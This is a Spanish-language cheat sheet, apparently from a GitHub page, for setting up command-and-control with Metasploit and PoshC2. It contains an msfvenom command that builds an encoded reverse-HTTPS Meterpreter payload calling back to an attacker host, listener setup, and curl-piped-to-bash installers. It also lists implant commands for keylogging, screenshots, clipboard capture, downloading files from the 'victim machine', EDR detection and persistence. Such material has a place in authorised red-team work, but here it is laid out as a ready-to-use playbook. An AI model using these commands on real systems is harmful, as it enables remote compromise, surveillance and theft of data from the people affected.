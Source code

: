 # **Command and Control * Resumen comandos**

## **Metasploit:**

Creación de beacons para los listeners de metasploit:
```bash
$ sudo msfvenom -p windows/meterpreter/reverse_https --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=<ip o dominio ngrok> LPORT=4443 -f exe
```

Dentro de metasploit inicializamos nuestros C2:
```bash
# Inicializamos la base de datos de metasploit:
$ sudo msfdb init

# Inicializamos el servicio (demonio) de metasploit:
$ sudo msfd 

# Ingresamos a metasploit:
$ sudo msfconsole

# Seteamos nuestro listener:
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_https
> set LHOST <ip o dominio ngrok>
> set LPORT 4443
> set SessionCommunicationTimeout 0
> set ExitOnSession false

# Lo ejecutamos con un job para seguimiento en 2do plano.
> exploit -j

# Interactuamos con la session:
> sessions -l # Lista las sessiones
> sessions -i <numero de la sesion>

```

## **PoshC2:**
1. Instalación
    
    Link de documentación: https://poshc2.readthedocs.io/en/latest/


    ```bash
    # Instalación de manera local: 
    $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash

    # Instalación en docker:
    $ apt install docker docker.io
    $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install-for-Docker.sh | sudo bash

    ```

2. Comandos usados para configuración:

    ```bash
    # Creación de proyectos:
    $ sudo posh-project -n <nombre_proyecto>

    # Configuración:
    $ sudo posh-config # se abrirá en el editor por defecto (vim en su mayoria)
    ```
    Dentro de la configuración se cambiaran 2 parametros generalmente:
    ```text
    PayloadCommsHost -> url de tu maquina escucha (ip de tu kali o tu ngrok).

    KillDate -> Fecha max que quieres que dure el beacon.
    ```

    Una vez realizado la configuración de tu proyecto se procede a ejecutar:
    ```bash
    $ sudo posh-server
    ```

3. Comandos usados para interacción usuario:
    
    
    ```bash
    # Logearse como usuario para interacción:
    $ sudo posh -u <usuario>

    # Revisar los logs del server:
    $ sudo posh-log
    
    ## Dentro del implante algunos comandos utiles:
    
    PS 1> get-userinfo # Información del usuario
    PS 1> get-computerinfo # Informacion de la maquina victima
    PS 1> find-allvulns # Enumeración de KB y vulnerabilidades potenciales
    PS 1> get-allservices # Listar todos los servicios

    # Enumeración de hosts 
    PS 1> invoke-arpscan # Enumeracion arp
    PS 1> invoke-hostenum -all 
    
    # Keylogger 
    PS 1> get-keystrokes # Ejecuta un keylogger por 60min
    PS 1> Get-KeystrokeData # Retorna la data al servidor
    
    # Screen y portapapeles
    PS 1> get-screenshot # Retorna un screenshot de la maquina victima
    PS 1> get-clipboard # Retorna el ultimo elemento copiado de la maquina victima
    
    # Descarga y carga de archivos
    PS 1> download-file -source 'c:\temp dir\run.exe' # Descarga de archivos de la maquina victima
    PS 1> download-files -directory 'c:\temp dir\' # Descarga de directorios.
    
    PS 1> upload-file -source 'c:\temp\run.exe' -destination 'c:\temp\test.exe'
    PS 1> web-upload-file -from 'http://www.example.com/app.exe' -to 'c:\temp\app.exe'
    
    # Detección de EDR:
    PS 1> invoke-edrchecker
    PS 1> invoke-edrchecker -force
    PS 1> invoke-edrchecker -remote <hostname>
    PS 1> invoke-edrchecker -remote <hostname> -ignore

    # Post-Explotación
    PS 1> install-servicelevel-persistence # Creacion de servicio de persistencia.
    PS 1> invoke-bloodhound -collectionmethod stealth # Para AD.
    
    # Persistencia:
    PS 1> installexe-persistence
    PS 1> removeexe-persistence
    ```

## **Referencias:**

https://redtm.com/red-teaming-toolkit/poshc2-commands-reference/

https://github.com/nettitude/PoshC2

https://www.rapid7.com/blog/post/2011/06/29/meterpreter-httphttps-communication/
